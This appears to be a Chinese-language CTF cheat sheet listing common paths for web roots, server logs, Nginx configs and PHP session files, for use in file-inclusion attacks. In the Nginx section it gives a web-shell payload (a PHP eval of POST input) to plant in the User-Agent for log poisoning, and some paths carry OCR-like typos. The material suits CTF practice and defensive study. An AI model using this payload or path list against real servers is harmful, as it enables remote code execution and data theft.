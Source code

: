 网站位置
```
/www/wwwroot/站点/
/var/www/html/ 
/var/www/html/index.php
```
宝塔网站nginx,apache的访问和访问错误日志都在
```
/www/wwwlogs/站点名.log
```
^
Apache Web 服务器日志通常存储在这些目录中
```

/var/log/httpd/access.log
/var/log/apache/access.log 
/var/log/apache2/access.log
/var/log/apache2/error.log

/etc/httpd/logs/access.log

/etc/httpd/conf/httpd.conf
```

^
 MySQL 或 MariaDB 数据库服务器日志
```
/var/log/mysql
/var/log/mariadb
```
IIS服务器日志常见位置
```
WindowsServer2003 iis6
日志路径：C:Windows\System32\LogFilesWindows 
Server2008 R2、2012、2016、2019 iis7以上
日志路径：C:linetpub\logs\LogFiles
```
^
Nginx web 服务器日志通常存储在该目录中
```
/var/log/nginx
/var/log/nginx/access.log

在UA中插入<?php eval($_POST[1]); ?>
<?php phpinfo(); ?>
```
配置文件
```
配置文件存放目录：/etc/nginx
主配置文件：letc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf  读这个文件可能有flag路径
```

^
php的session常见存储位置，里面为键值对 字符

其中
```
/var/lib/php5/sess_PHPSESSID
/var/lib/php7/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSED
/var/lib/php/sessions/sess_PHPSESSID
```
PHPSESSID来源F12的cookie存储
如
```
/tmp/sess_99se2w33sddcs
```

tomcat常见访问日志位置
```
apache_tomcat/logs/localhost_access_log.日期.txt
```
